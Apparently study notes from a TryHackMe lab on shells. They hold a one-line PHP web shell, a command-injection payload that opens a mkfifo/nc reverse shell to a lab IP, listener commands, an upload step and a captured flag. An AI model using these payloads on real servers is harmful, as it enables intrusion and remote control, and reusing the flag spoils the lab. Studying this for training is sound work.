 ## web shell

A web shell is a script written in a language supported by a compromised web server that executes commands through the web server itself. A web shell is usually a file containing the code that executes commands and handles files. It can be hidden within a compromised web application or service, making it difficult to detect and very popular among attackers.

PHP web shell
```php
<?php
if (isset($_GET['cmd'])) {
    system($_GET['cmd']);
}
?>
```
upload `shell.php` to server
and can access it `http://victim.com/uploads/shell.php` 
```
http://victim.com/uploads/shell.php?cmd=whoami
```

minimal PHP web shell for RCE
https://github.com/flozz/p0wny-shell

```
https://github.com/b374k/b374k
https://www.r57shell.net/single.php?id=13
```


https://medium.com/@Z3pH7/tryhackme-shells-overview-cyber-security-101-thm-d45d8057aec1

https://www.youtube.com/watch?v=nSv589s4Fg0
## practice 

```
http://10.10.103.74:8081/

hello.txt
;ls
hello.txt;cat index.php     returns sha256  328bc672ba8234075d81256d8881cf442adb46358365f61229f2be3f1b5fa046


terminal: rlwrap nc -lvnp 443

website: hello.txt;rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc 10.10.31.231 443 >/tmp/f

cd /
ls
cat flag.txt
THM{0f28b3e1b00becf15d01a1151baf10fd713bc625}


10.10.103.74:8082     unrestricted file upload

Use the payloads learned in tasks 7 to create a file called shell.php

touch test.php > upload  = success

rlwrap nc -lvnp 1234
shell.php

10.10.103.74:8082/uploads/shell.php

```